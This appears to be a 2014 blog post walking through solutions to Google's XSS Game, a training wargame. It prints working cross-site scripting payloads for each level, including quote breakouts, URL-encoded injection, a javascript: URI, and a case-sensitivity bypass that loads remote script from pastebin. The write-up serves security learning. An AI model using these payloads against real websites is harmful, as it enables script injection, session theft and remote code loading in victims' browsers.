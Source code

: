 +++
title = "Googles XSS Game - Solutions"
date = "2014-06-02"
tags = ["web", "wargames", "security", "coding", "hacking", "xss", "google", "javascript"]
category = "blog"
+++

These are my steps how I've solved the [XSS Game](https://xss-game.appspot.com/)

## Level 1

This is the most obvious and easiest one. Just insert following code and you're done:

~~~ javascript
<script>alert(1)</script>
~~~

## Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:

~~~ javascript
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
~~~

<!--more-->

## Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html`:

~~~ javascript
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
~~~

As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

~~~
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
~~~

## Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

~~~ javascript
SyntaxError: unterminated string literal

startTimer(''');
~~~

Obviously there is again a way to escape the function and append the `alert()` call. I have tried several things:

* https://xss-game.appspot.com/level4/frame?timer=');

~~~ javascript
    SyntaxError: unterminated string literal

    startTimer('')');
~~~


* https://xss-game.appspot.com/level4/frame?timer=')&#59;

~~~ javascript
    SyntaxError: unterminated string literal


    startTimer('')');
~~~


And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

* https://xss-game.appspot.com/level4/frame?timer=')%3B

~~~ javascript
    SyntaxError: unterminated string literal


    startTimer('');');
~~~


Aha.. There you go! We can terminate the call and insert other ones. The **final request**:

* https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in

~~~
startTimer('');alert(1);var b=('');
~~~

I must admit: Nice one!


## Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

~~~ javascript
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
~~~

So the window.location is set based on the `next` parameter. This is a typical case for *DOM based XSS*.  Besides that we have in `signup.html`:

~~~ javascript
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
~~~

Again the `next` parameter is used as an `a` tag target. Ok, enough bla bla. Here is the PoC:

* Go to `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`
* Insert your Mail
* Click `Next >>`
* Voila!

## Level 6

This time I had to figure to host my JS code. So I've used `pastebin.com` to host my [evil code](http://pastebin.com/raw.php?i=rTRPYeNk). Next I had a look at the code. As you can read a new `script` tag is created and the `src` attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing *https?*:

~~~ javascript
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
~~~

Afterwards the text after the hash is used as the scripts src:

~~~ javascript
// Load this awesome gadget
scriptEl.src = url;
~~~

Have you noticed something about the regexp? No?! Seriously not? Ok. It's **not** case-sensitive. You can escape it by using *hTTps* or any other combination. So the **final PoC**:

* https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0


## Conclusion

This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)
